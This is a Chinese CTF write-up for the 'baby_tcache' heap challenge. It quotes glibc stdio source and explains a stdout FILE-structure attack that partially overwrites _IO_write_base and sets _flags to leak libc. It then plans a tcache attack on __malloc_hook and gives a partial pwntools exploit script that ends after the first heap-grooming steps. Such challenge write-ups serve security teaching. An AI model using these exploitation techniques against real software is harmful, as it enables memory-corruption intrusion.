 ```arm
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0
                       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
                       ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```

先是确定fp->_offset
然后call了 最终的输出_IO_SYSWRITE

整个puts的过程简单如上所示现在回到我们题目上来.
我们可以通过控制partial write 做tcache attack 控制IO_FILE更改IO_FILE做输出
思路如下:
* 我们需要控制和输出相关的那三个域_IO_write_base,_IO_write_ptr,_IO_write_end
* 但是我们没有任何leak所以不知道任何地址,比较保险的办法是partial write _IO_write_base
* 所以我们可以选择改小_IO_write_base--->\x00
* 之后我们只要正确设置_flags就可以leak
* 那么如何设置_flags由前面_flags各个域的意义我们可以选择一些要用的域例如
```python
_flags=_IO_MAGIC+_IO_CURRENTLY_PUTTING+_IO_IS_APPENDING+（_IO_LINKED）

# _IO_MAGIC:magic num
# _IO_LINKED:在IO_list_all内... 测试好像可有可无但是尊重事实加上去吧...
# _IO_CURRENTLY_PUTTING:当前输出 经测试没有的话不会leak
# _IO_IS_APPENDING:在new_do_write内走比较简单的那个分支...正确处理的话走另一个也可以
_flags=0xfbad1800 or 0xfbad1880 或者再加一些其他不影响leak的_flags
发现最低字节`&2==1`的话之后还是会输出换行符,所以最好设置成 _flags=0x1802（AD-2019-12-07）
```

终于搞定这两件事情...那么总的思路就是
* 通过one_null_byte_off控制IO_file造成leak
* 做tcache atk改写__malloc_hook

# EXP
```python
from pwn import *
#context.log_level="debug"
def cmd(c):
	p.readuntil("Your choice: ")
	p.sendline(str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",data)
def free(idx):
	cmd(2)
	p.sendlineafter("Index:",str(idx))
p=process("./baby_tcache")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
for x in range(6):
	add(0x80,"\n")#0

add(0x38,"\n")#6
# fill up the tcache
add(0x8e0,"\n")#7 E
add(0x440,'\n')#8 C
add(0x80,'\n')#9 D
free(6)
free(7)

```